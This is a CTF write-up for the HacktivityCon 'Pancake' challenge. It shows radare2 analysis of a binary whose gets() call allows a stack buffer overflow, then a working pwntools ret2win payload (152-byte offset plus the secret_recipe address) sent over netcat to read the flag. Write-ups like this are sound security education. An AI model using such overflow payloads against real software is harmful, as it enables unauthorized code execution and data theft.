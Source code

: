   title: "Pancake (HacktivityCon CTF)",
  description: "HacktivityCon CTF",
  date: "August 1, 2020",
};


<div className={styles.post}>

# Pancake (HacktivityCon CTF)

###### August 1, 2020

**Description**

Pancake is a simple binary exploitation challenge from HacktivityCon CTF.
Entering a long string causes a buffer overflow and pancake segfaults. Some familiarity with radare2 and the call stack will be helpful going through this writeup. A great guide on radare2 can be found [here](https://www.megabeets.net/a-journey-into-radare-2-part-1/).

**Analysis**

Load and analyze the binary in radare2. The stack is not executable, but the file isn't protected by [canaries](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries) nor compiled with support for [position independent code](https://en.wikipedia.org/wiki/Position-independent_code). This means that there is no protection against buffer overflows and the segments will always be loaded to the same location.

<div className={styles.codeblock}>

```
$ r2 -A pancakes
[0x00400700]> iI
arch     x86
baddr    0x400000
binsz    6995
bintype  elf
bits     64
canary   false
nx       true
pic      false
... (output truncated)
```

</div>

List function symbols within the binary. Although most of the functions are from C libraries and calls used by the program, two of them stand out. One of them is <code>main</code>, which is always worth checking out. The second is <code>secret_recipe</code>, which seems to be a user defined function.

<div className={styles.codeblock}>

```
[0x00400700]> afl
0x00400700    1 42           entry0
0x00400740    4 42   -> 37   sym.deregister_tm_clones
0x00400770    4 58   -> 55   sym.register_tm_clones
0x004007b0    3 34   -> 29   sym.__do_global_dtors_aux
0x004007e0    1 7            entry.init0
0x00400a70    1 2            sym.__libc_csu_fini
0x00400a74    1 9            sym._fini
0x0040098b    1 113          sym.secret_recipe
0x004006d0    1 6            sym.imp.fopen
0x00400690    1 6            sym.imp.fread
0x00400680    1 6            sym.imp.puts
0x00400a00    4 101          sym.__libc_csu_init
0x00400730    1 2            sym._dl_relocate_static_pie
0x004007e7   10 420          main
0x00400648    3 23           sym._init
0x00400670    1 6            sym.imp.putchar
0x004006a0    1 6            sym.imp.printf
0x004006b0    1 6            sym.imp.gets
0x004006c0    1 6            sym.imp.setvbuf
0x004006e0    1 6            sym.imp.atoi
0x004006f0    1 6            sym.imp.usleep
0x004000ea    1 2            fcn.004000ea
```

</div>

Firstly, examine the <code>secret_recipe</code> because it's supposed to be a secret. Going over the disassembly, the function is simple. <code>secret_recipe</code> opens a file named <code>flag.txt</code>, reads it contents and prints it out.

<div className={styles.codeblock}>

```
[0x00400700]> pdf @ sym.secret_recipe
... (output truncated, radare comments removed for better readability)
0x004009a5       488d3dce0200.   lea rdi, str.flag.txt
0x004009ac       e81ffdffff      call sym.imp.fopen
0x004009b1       488945f0        mov qword [stream], rax
0x004009b5       488b55f0        mov rdx, qword [stream]
0x004009b9       488d8560ffff.   lea rax, [ptr]
0x004009c0       4889d1          mov rcx, rdx
0x004009c3       ba80000000      mov edx, 0x80
0x004009c8       be01000000      mov esi, 1
0x004009cd       4889c7          mov rdi, rax
0x004009d0       e8bbfcffff      call sym.imp.fread
0x004009f4       e887fcffff      call sym.imp.puts
```

</div>

Next, skimming through the disassembly for <code>main</code>, the function also seems fairly straightforward - prints some stuff, gets user input and prints more stuff. <code>main</code> uses the <code>gets</code> function to get input. <code>gets</code> is a deprecated function that does not peform checks on input length, leading to potential buffer overflows exploits. This explains the segfault upon passing in a long string.

<div className={styles.codeblock}>

```
[0x00400700]> pdf @ main
... (output truncated, radare comments removed for better readability)
0x0040085b      e860feffff     call sym.imp.setvbuf
0x00400860      488d3d510300.  lea rdi, str.Welcome_to_the_pancake_stacker
0x00400867      e814feffff     call sym.imp.puts
0x0040086c      488d3d650300.  lea rdi, str.How_many_pancakes_do_you_want
0x00400873      e808feffff     call sym.imp.puts
0x00400878      488d8570ffff.  lea rax, [str]
0x0040087f      4889c7         mov rdi, rax
0x00400882      b800000000     mov eax, 0
0x00400887      e824feffff     call sym.imp.gets
0x0040088c      488d8570ffff.  lea rax, [str]
0x00400893      4889c7         mov rdi, rax
0x00400896      b800000000     mov eax, 0
0x0040089b      e840feffff     call sym.imp.atoi
0x004008a0      8945f0         mov dword [var_10h], eax
0x004008a3      488d3d4d0300.  lea rdi, str.Cooking_your_cakes
0x004008aa      b800000000     mov eax, 0
0x004008af      e8ecfdffff     call sym.imp.printf
... (output truncated)
```

</div>

Note that <code>main</code> does not make a call to <code>secret_recipe</code>. Maybe the vulnerable <code>gets</code> can be exploited to overwrite the return address on the stack?
**Exploitation**
To craft the payload, we need to identify the offset in our buffer where the return address will be placed. To do so, generate a [De Bruijn Sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) long enough string to cause a segfault. The sequence can be generated by using <code>ragg2</code>, which is part of the radare project.

<div className={styles.codeblock}>

```
$ ragg2 -P 200 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA%
```

</div>

Run radare2 in debug mode <code>r2 -d ./pancake</code>. Analyze the binary and set a breakpoint at the <code>ret</code> instruction in <code>main</code>. This will pause execution of the program just before the <code>main</code> function exits, allowing us to examine the stack. <code>dc</code> to begin execution of the program, passing the De Bruijn Sequence when prompted. Since we have placed a breakpoint at the end of main, the program should pause execution. Print the first 16 bytes on the stack using <code>pxw 8 @ rsp</code>. Using the first four bytes on the stack, calculate the offset using the command <code>wopO 0x41417a41</code>. This is where we will place the address to <code>secret_recipe</code>.

<div className={styles.codeblock}>

```
[0x00400700]> pdf @ main
... (output truncated)
0x00400984      b800000000     mov eax, 0
0x00400989      c9             leave
0x0040098a      c3             ret
[0x00400700]> db 0x0040098a
[0x00400700]> dc
... (output truncated)
hit breakpoint at: 40098a
[0x0040098a]> pxw 16 @ rsp
0x7ffffe1723b8  0x41417a41 0x32414131 0x41334141 0x41413441  AzAA1AA2AA3AA4AA
[0x0040098a]> wopO 0x41417a41
152
```

</div>

The final payload will be just a buffer of 152 bytes with the address of <code>secret_recipe</code> added onto the end. Since data is stored and loaded in little endian format on x86, the address to <code>secret_recipe</code> must be passed with the same endianess. Pwntools can be used to easily convert the address into little endian format, instead of doing it manually, which can be tedious. Finally create a file (if it does not already exist) in the same directory named <code>file.txt</code> to test the payload.

<div className={styles.codeblock}>

```
$ cat flag.txt
FLAG{HASH123}
$ python -c "from pwn import *; import sys; secret_recipe = 0x0040098b; offset=152; payload = b'A'*offset + p64(secret_recipe); sys.stdout.buffer.write(payload)" | ./pancakes
...(output truncated)
FLAG{HASH123}
[1]    17531 done                              python -c  |
       17532 segmentation fault (core dumped)  ./pancakes
```

</div>

With the payload working, throw it over netcat to capture the flag.

<div className={styles.codeblock}>

```
$ {python -c "from pwn import *; import sys; secret_recipe = 0x0040098b; offset=152; payload = b'A'*offset + p64(secret_recipe); sys.stdout.buffer.write(payload)";cat;} | nc jh2i.com 50021
Welcome to the pancake stacker!
How many pancakes do you want?
Cooking your cakes.....
Smothering them in butter.....
Drowning them in syrup.....
They're ready! Our waiters are bringing them out now...
        _____________
       /    ___      \\
      ||    \\__\\     ||
      ||      _      ||
      |\\     /\ \     /|
      \\ \\___/ ^ \\___/ /
      \\\\____/_^_\\____//_
    __\\\\____/_^_\\____// \\
   /   \____/_^_\____/ \\ \\
  //                   , /
  \\\\___________   ____  /
               \\_______/
flag{too_many_pancakes_on_the_stack}
```

</div>

</div>
